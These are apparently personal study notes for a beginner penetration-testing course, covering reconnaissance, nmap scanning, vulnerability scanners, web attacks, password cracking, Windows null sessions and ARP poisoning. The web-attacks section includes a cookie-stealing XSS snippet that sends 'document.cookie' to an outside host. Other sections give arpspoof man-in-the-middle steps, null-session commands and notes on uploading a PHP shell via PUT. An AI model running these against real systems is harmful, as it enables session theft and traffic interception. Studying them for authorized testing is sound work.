



Basics

# Information Gathering

Open Source Intelligence
* Visit social media, public & company websites
* Social Networks Information Gathering: Employees post company details eg. Projects, emails - Creates technical map of systems and technologies used by the company
  * LinkedIn : Provide contact details, Filter search, linked accounts (eg. To Twitter) 
* Public sites Information Gathering
  * Crunchbase : Find out about founders, investors, employees, buyouts and acquisitions, search by company/people names
  * Government Sites: for gov agencies/linked to them
* whois (Linux command) : Find from domain Owner name, Street or email address, technical contacts 
* Browsing Clients site
* Discovering email pattern: Get employees names and guess email (using fake ads, see which did not give Fail to Send error) 

Subdomain Enumeration
* Common of websites of sane company to share same Top Level Domain name
* Passive Subdomain Enumeration: Without directly interacting with target, but through open sources 
  * Search Engine, dnsdumpster.com, sublist3r
A
The importance of Information Gathering
* Widening attack surface

# Footprinting and Scanning

Disclaimer
* Never run tools/techniques used without proper authorization 

Mapping a Network
* Why Map? To determine what hosts are up and running
* Ping Sweeping: Pings every one of the 65535 possible hosts 
  * `fping -a - G <IP Range>`, define IP range like `10.52.14.0/24` or `10.52.14.0 10.52.14.255`, can add `2>/dev/null` to suppress error messages
  * Nmap ping scan: -sn, use CIDR notation or wildcard notation, also -iL flag
* OS Fingerprinting: Possible due O tiny differences in network stack implementation of various systems 
  * Tools send a series of specially crafted requests,  examine every bit of responses and creating a signature of host behaviour, signature compared to database of well known OS signatures
  * Perform this test to every network node, can use p0f tool
  * nmap -Pn -O

## Port Scanning
Under the hood of a port scan
1. TCP connect scan: if port is closed, receiver sends packet with RST and ACK flags set, but since all connections look legit, recorded in logs
2. TCP SYN scans:
  a. Scanner sends TCP packet to port with SYN flag
  b. If RST packet, mark closed
  c. If ACK packet, sends RST packet to close connection, stopping the 3 way handshake  with no real connection, not in daemon logs

Scanning with nmap
* - sT is TCP connection scan, -sS is TCP SYN scan (stealth scan, though well configured IDS can detect) , -sV is version detection scan (mixes a TCP connect with some probes) 
* for version scan, TCP connect and then reads banner, if no banner, does probes (guess the app and version by studying its behaviour) 

Specifying the targets
* DNS names, IP address lists, CIDR notation, wildcards, ranges, octet lists, input files 

Choosing ports to scan
* Nmap by default chooses most common ports, to specify custom ports use `-p (list/range)`

Nmap Examples

Discovering Network with Port Scanning
* Sometimes firewall blocks
1. Does not respond to pings, many ports open: use - Pn to treat it as alive and force scan
2. Scan typical posts like 22, 445, 80, 443

Spotting a firewall
* potential false positives and firewall presence 
1. Pay attention to incomplete Nmap results, eg.  Well known service should be easy to fingerprint, but might see unrecognized version
2. Use `--reason` to check why port is marked open or closed

Masscan
* Nmap but faster and less accurate, for larger networks

# Vulnerability Assessment
Sometimes client don't want full pentest 
Cannot confirm vulnerabilities 

Vulnerability scanner 
* Use database of known vulner and security audits
* eg. OpenVAS, Nexpose, GFI LAN Guard

Manual Testing
* For custom application
* eg. Reversing, Understanding its connections

## Nessus

Architecture
1. Client configures scans, web interface 
2. Server actually scans (probes, collects responses and matches to Vulnerability database) and reports results back to client 
3. Can run both on the same machine

Under the hood
1. Port scanning, Service Detection
2. Vulnerability database lookup
3. Probing to find out of vulnerabilities actually exist (prone to false positives as some porbes are too mild) 


# Web Attacks

## Web Server Fingerprinting

Fingerprinting means
1. Detecting the daemon providing the web server service
2. It's version
3. The operating system of the machine hosting the service

Using netcat
* Manually send requests
1. Banner grabbing: connect to service and read banner it sends back
  a. Send `HEAD / HTTP/1.0`
  b. Netcat does not notify you of connection, have to use -v flag, also no encryption so http is out of the question 

Fingerprinting with OpenSSL
1. `openssl s_client - connect target.site:443`

Limits of Manual Fingrrprinting
1. System administrators customize web servers to make it harder for attackers
2. Automatic tools go beyond banner grabbing and check things like header ordering in response messages as well as error messages

Fingerprinting with httpprint
* uses signature based approach 
httpprint -P0 -h <target hosts> -s <signature file> 

## HTTP Verbs
GET, POST, PUT, HEAD, DELETE, OPTIONS

1. REST APIs
2. Using HTTP 1.0 Syntax (Skip host header) 
3. Exploiting Misconfigured HTTP Verbs 
  a. OPTIONS message with netcat
  b. `DELETE /path/to/resource.txt HTTP/1.0` - Exploit unauthenticated Delete method
  c. PUT to upload files (eg. PHP shell) use `wc -m filename` to determine size of file in bytes

Conclusions
1. Becoming rare
2. But can still find in smart devices

## Directories and Files Enumeration
Discover hidden files which may be useful through 
1. Pure Brute force (very inefficient though) 
2  Dictionary attacks

Enumerating with Dirbuster

Enumerating with Dirb
* Command line alternative to gobuster


## Google Hacking
Use Google's advanced query features - Google dorks


Check the official documentation

## Cross Site Scripting
When web app uses unfiltered input to build output content
* let's attacker control output HTML and Javascript code

Attacks include stealing session cookies, buyi g things without consent and more

Types 
1. Reflected - Payload in the input/request given
2. Persistent - Payload sent to vulnerable web server and stored
3. DOM based

Cookie Stealing with XSS


```
var i = new_image();
i.src = "http://192.168.99.1/get.php?q="+document.cookie;
```


Try hack.me

## SQL Injection
1. SQL statements 
2. SQL Queries inside Web Applications 
3. Vulnerable Dynamic Queries
4. Finding SQL Injections
  a. Craft a Payload, 
  b. Test every single injection point, not just the 1st one you find(GET, POST, HTTP Headers) 
5. Boolean based SQL Injections 
  a. Want to transform query into True/False condition
  b. Force the query to include all entries
  c. Then test things like: is the first letter of the username a, (test with the `substr` or `user` function)
  d. Scripting Boolean Based SQL Injections - Can use `sqlmap`
6. UNION Based SQL Injections (Results of a query directly displayed on output page)
  a. Can have results of another, attacker controlled query shown on the page eg. `' UNION SELECT user(); -- -`
  b. Need to know how many fields are selected in the vulnerable query, then test which fields are part of the output page
  c. Does it just display something? Or is it modifying some data? What if its not SELECT type but instead DELET type query?
7. SQLMAP
  a. Test injections by hand, then move to the tool if go fully automatic 
  b. `sqlmap -u <URL> -p <injection parameter> [options]`
8. Conclusions - Most common, exploit without modifying/destroying data


# System Attacks

## Malware
1. Virus - code that spreads automatically
2. Trojan Horse - malware in seemingly harmless file
3. Backdoor - accepts connections to secretly access machine. Eg. NetBus, SubSeven
  a. But firewall may block Backdoor, so instead use a connect back backdoor/Reverse Backdoor (server connects to client Backdoor) 
4. Rootkit - malware that hides itself from users and anti-virus to completely subvert OS functioning
5. Bootkits - Rootkit which circumvent OS protection mechanisms by executing during bootstrap phase
6. Adware
7. Spyware
8. Greyware - malware that doesn't fall under a specific category 
9. Dialer - tries to dial numbers on dial-up connections in order to collect money from victims phone bill
8. Keylogger - records every keystroke and send logs (or login info/ social engineering) 
  * hardware or Rootkit (hijack system APIs & keyboard interrupts) 
9. Bots - small pieces of software installed on millions of machines to perform DDoS or serve as spamming sources, controlled by Command & Control Server
10. Ransomware - locks data and demands ransom
11. Data stealing malware 
12. Worms - spread over the internet by exploiting operating systems and software capabilites (usually part of other malware) 

## Password Attacks
The computer compares the hashed input with the hashed password stored in the computer 
Password cracking - The process of recovering clear-text passwords from their hash
1. Password Attacks - Brute Force
  a. John The Ripper, unshadow 
  b. `--incremental`, `--users:user1,user2`, `--show` options
2. Dictionary Attacks
  a. Good for poorly chosen/defaults, uncommon is less good, but only truel
  b. But sometimes the password is just out of the dictionary, so try mangling(eg. cat - Cat - cAt)
  c. john `--wordlist` `--rules`(Mangling),
  d. OWASP seclists `apt install seclists`
3. Rainbow Tables: Table of password with respective hash 
  a. ophcrack - tool for windows password hashes

## Buffer Overflow Attacks
1. Buffer - Area in the Computer's RAM reserved for temporary data storage, have a finite size which if not enforced, could overflow, write data into other parts of RAM and control program flow 
2. Stack - Buffers are stored in a special data structure
3. Stack in Applications - contains data and information about execution flow
4. How Buffer Overflow Attacks work
  a. Overwrite return pointer etc. 



# Network Attacks

## Authentication Cracking
1. Brute force (too inefficient) vs Dictionary Attacks
2. Weak and Default Credentials
3. Authentication Cracking Tools
4. Hydra

## Windows Shares
1. NetBIOS
  a. Heavy traffic like file copy uses NetBIOS sessions
  b. 
Datagrams - list shares and machines, Names - find workgroups, Sessions - transmit data to and from a Windows Share


2. Shares - Share files. directories over the network
3. Universal Naming Convention (UNC) Paths - `\\ServerName\ShareName\file.nat`
4. Administrative shares - \\ComputerName\C$ (Access Volume), \\ComputerName\admin$ (Windows Installation Directory), \\ComputerName\ipc$ (Inter process commnication)
5. Badly Configured Shares
 

## Null Sessions

Can be used to steal information about passwords, system users/ groups, running system processes. 

An attack exploits an authentication Vulnerability for Windows Administrative shares, letting users connect to local or remote share without authentication. 

Enumerating Windows Shares 
1. `nbtstat` for Windows
    1. `nbtstat /?` How to use it
    2. `nbtstat -A <IP>` displays information about a target (read up more online, can be used to tell if there are file shares from the 3rd line) 
2. `NET VIEW <Target IP>` to Enumerate shares on windows
3. `nmblookup -A <IP>` : nbtstat but for linux
4. `smbclient` 

Checking for Null Sessions
1. By trying to connect to $IPC share (and only it) without valid credentials. If succeeds, is vulnerable. 
2. Windows: `NET USE \\<IP>\$IPC '' /u:''`
3. Linux: `smbclient \\<IP>\$IPC -N`

Exploit
1. Windows: download and use `enum`
    1. `-S` to enumerate shares
    2. `-U` to Enumerate users
    3. `-P` Check password policy incase want to do network auth attack
        1. To prevent account locking, false positives, and to choose dictionary/Brute force configuratiom
2. `winfo <ip> -n` download tool from packetstorm
3. `enum4linux`

## ARP Poisoning

Allows you to intercept traffic

How it works
1. To send IP packet, host needs to know MAC Address of next hop
2. To identify MAC Address, they use Address Resolution Protocol (ARP) 
    1. Give IP address, gets MAC address
3. The destination Mac Address is stored in the ARP cache table of the host to be used next time
4. If Hacker manipulate ARP cache, can receive info for other IP Addresses
5. If manipulate ARP cache of bkoth parties, can do a Man In The Middle Attack
    1. Done by sending gratuitous ARP replies

ARP Poisoning Actors
1. 2 Network Nodes
2. Attacker

Gratuitous ARP replies
1. Attacker send without waiting for the host to perform a request (unsolicited) 
2. Tells victims can reach IP at attacker's MAC address to manipulate ARP cache 
3. Must be performed on every victim
4. Can prevent poisoned cache from expiring by sending the replies regularly

Forwarding & Mangling Packets
1. As soon as packets are received, attacker must forward to correct destination
    1. Else communication would not work
    2. Allow sniffing of traffic
2. Attacker can also change content of packets

Local to Remote Man in the Middle Attack
1. Can be done on the entire network and against a router 
    1. Intercept traffic between network and Internet

Dsniff Arpspoof
1. Arpspoof is part of Dsniff
    1. Arpspoof intercepts traffic on a switched LAN. 
2. Have to enable IP forwarding first in the Linux Kernel (to forward to real host) 
    1. `# echo 1 > /proc/sys/net/ipv4/ip_forward`
3. `arpspoof -i <interface> -t <target> -r <host>`
    1. Target and host is IP address

## Metasploit
Search, use, help, set, exploit

## Meterpreter

# Next Steps

## Penetration Testing Approch
1. Google, 
2. Use a methodology like https://www.owasp.org/index.php/Testing_Checklist 
